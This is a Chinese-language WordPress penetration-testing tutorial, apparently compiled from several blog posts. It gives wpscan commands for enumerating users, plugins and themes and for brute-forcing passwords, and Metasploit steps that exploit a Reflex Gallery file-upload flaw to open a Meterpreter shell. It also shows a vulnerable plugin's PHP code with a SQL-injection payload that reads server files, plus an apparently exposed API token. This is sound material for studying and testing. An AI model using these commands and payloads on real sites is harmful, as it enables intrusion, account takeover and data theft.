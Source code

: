 很多企业官网使用的WordPress搭建。

^
# **wpscan扫描器**
使用wpscan工具扫描历史漏洞和插件组件漏洞。
如：任意文件读取等。

需要注册token才能查看漏洞信息
<https://blog.csdn.net/weixin_44628122/article/details/107250045>
3312@qq.com+ 123
```
命令时带上token
--api-token mKcu3vyatgfAvUnipF7VMuZEuI2Lr3SGVjAp4ani1aQ
```


kali中可以使用wpscan：
```text
wpscan --url https://www.xxxxx.wiki/
```

> 演示案例：

* 我们扫描192.168.43.104:8000这个站点（此站点存在一个WordPress进程）

![](https://pic3.zhimg.com/v2-b90cd10071461ee62a625f52f4698a20_r.jpg)

![](https://pic4.zhimg.com/v2-f30e534aa4bbe3e6d6580aa7c5b32aff_r.jpg)

## 五、扫描指定用户

* 格式：

```text
wpscan --url https://www.xxxxxxx.wiki/ --enumerate u
```

## 六、**暴力破解得到密码**

* **在暴力破解之前，需要提供一个字典文件**
* 格式：

```text
wpscan --url  https://www.xxxxx.wiki/  -e  u --wordlist 字典文件路径
```

## 七、**扫描插件漏洞**

* 插件可以扩展`WordPress`站点的功能，但很多插件中都存在安全漏洞，而这也会给攻击者提供可乘之机
* 我们可以使用下列命令扫描`WordPress`站点中安装的插件：

1. wpscan --url [https://www.xxxxx.wiki/](https://link.zhihu.com/?target=https%3A//www.xxxxx.wiki/) --enumerate p
2.
3. //备注：--url与-u参数相同，下面雷同

* 我们可以使用下列命令来扫描目标插件中的安全漏洞：

```text
wpscan --url https://www.xxxxx.wiki/ --enumerate vp
```

## 八、**主题漏洞扫描**

* 使用下列命令对主题进行扫描：

```text
wpscan --url https://www.xxxxx.wiki --enumerate t
```

> 演示案例：

![](https://pic1.zhimg.com/v2-3673956c30b6f8797b6bd8788b7e17ce_r.jpg)

* 看到总共数据库中的402个主题，发现了3个主题，但是发现的主题不一定有这么多，会在下面显示

![](https://picx.zhimg.com/v2-6e69696ff70649a8dd4a643e0653e2df_r.jpg)

* 使用下列命令扫描主题中存在的漏洞：

```text
wpscan --url https://www.xxxxxx.wiki --enumerate vt
```

## 九、**`TimThumbs`文件漏洞扫描**

```text
wpscan -u https://www.xxxxxx.wiki/ -enumerate tt
```

^


## 结合Metasploit利用插件中的漏洞

接下来，我们将用第一个插件中的任意文件上传漏洞来进行漏洞利用演示，该漏洞允许我们上传恶意文件并实现远程代码执行。

打开终端窗口并输入下列命令：

```
useexploit/unix/webapp/wp_reflexgallery_file_upload
msfexploit(wp_reflexgallery_file_upload) > set rhost 192.168.0.101
msfexploit(wp_reflexgallery_file_upload) > set targetURI /wordpress/
msfexploit(wp_reflexgallery_file_upload) > exploit
```

你将看到终端与目标设备建立了Meterpreter会话，你可以输入下列命令查看目标系统信息：

```
Sysinfo
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287971789768.png!small)

## 枚举WordPress用户名

我们可以在终端中输入下列命令来枚举WordPress用户名：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ --enumerate u
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972068549.png!small)

接下来工具将导出用户名数据表，你可以看到用户名以及对应的ID信息。

当然了，你也可以使用下列命令枚举出所有的内容：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ -e at -e ap -e u
–e at : enumerate all themes of targeted website
–e ap: enumerate all plugins of targeted website
–e u: enumerate all usernames of targeted website
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972309586.png!small)

## 使用WPScan进行暴力破解

在进行暴力破解攻击之前，我们需要创建对应的字典文件。输入下列命令：

```
./wpscan.rb –u http://192.168.0.101/wordpress/ --wordlist /root/Desktop/dict.txt --usernameadmin
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/1528797258105.png!small)

如果找到了相匹配的用户名与密码，工具将直接以admin:password的形式显示出来：



^
# **wp扩展漏洞**
WordPress Double Opt-In for Download 插件 2.0.9 版本中, public/class-doifd.php 文件中 populate_download_edit_form 函数中 id 参数未经过滤，直接拼接 SQL 语句，导致 SQL 注入漏洞。
```
public function populate_download_edit_form() {

    global $wpdb; // this is how you get access to the database

    if( isset( $_POST[ 'id' ] ) ) {

        $value = $_POST[ 'id' ];

        $download = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}doifd_lab_downloads WHERE doifd_download_id = $value", ARRAY_A );
    }
    echo json_encode( $download );
    die(); // this is required to terminate immediately and return a proper response
}
```
这里的$_POST[ ‘id’ ]没有经过过滤直接带入了sql语句，造成了sql注入。
注册登录，POST发送如下数据包：
```
/wp-admin/admin-ajax.php?action=populate_download_edit_form 


Content-Type: application/x-www-form-urlencoded
data:
id=0 union select 1,2,3,4,5,6,load_file(0x2f666c61675f69735f68657265)
```
